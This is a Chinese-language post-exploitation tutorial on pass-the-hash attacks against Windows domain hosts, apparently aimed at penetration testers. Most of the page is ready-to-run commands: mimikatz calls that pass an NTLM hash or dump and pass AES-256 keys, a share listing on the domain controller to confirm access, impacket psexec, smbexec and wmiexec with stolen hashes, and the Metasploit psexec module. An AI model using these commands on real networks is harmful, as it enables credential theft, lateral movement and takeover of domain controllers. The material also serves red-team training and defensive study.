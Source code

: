 ```yaml
---
title: 【后渗透】Hash传递攻击
---
```

## Hash传递攻击

> 哈希传递（Pass The Hash）攻击，直接将`NTML Hash`的散列值传递到其它主机，进行权限认证，获取控制权。
>
> 在域环境中，用户大都使用域账号登录，大量计算机在安装时会使用相同的本地管理员账号和密码；
>
> 因此，**如果计算机的本地账户名密码和目标相同**，就能通过哈希传递攻击获取目标主机控制权。
>
> **想要使用mimikatz的哈希传递功能，必须具有本地管理员权限（mimikatz需要高权限进程lsass.exe的执行权限）**

## 一、使用NTML Hash进行哈希传递

**（1）在目标机器中以管理员权限运行mimikatz**

```bash
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /domain:wintrysec.lab /ntlm:<NTML Hash>"
#<NTML Hash>为：f3a0acba8bcfb8a0896281bbfcb793ed这样的一串字符
```

**（2）列出目标域控C盘内容**（会自动弹出一个cmd.exe）

```bash
dir \\DC\c$   #测试是否成功
```

## 二、使用AES-256进行哈希传递 

> 当系统安装了`KB2871997`补丁，将无法使用常规的哈希传递攻击；
>
> 但是SID为500的Admintrator用户，依然可以使用哈希传递，或者使用AES-256进行哈希传递。

**（1）抓取AES-256密钥**

```bash
mimikatz.exe "privilege::debug" "sekurlsa::ekeys"
```

**（2）管理员权限运行mimikatz**

```bash
mimikatz "privilege::debug" "sekurlsa::pth /user:Administrator /domain:wintryse.lab /aes256:<AES-256密钥>"
```

## 三、不使用mimikatz进行哈希传递

**使用impacket软件包**

```bash
psexec.py -hashes :<hash> 域/域用户名@目标IP
smbexec.py -hashes :<hash> 域/域用户名@目标IP
wmiexec.py -hashes :<hash> 域/域用户名r@目标IP whoami
```

**MSF模块**

```bash
use exploit/windows/smb/psexec

#关键设置
set SMBPass <LM Hash>:<NTML Hash>
```
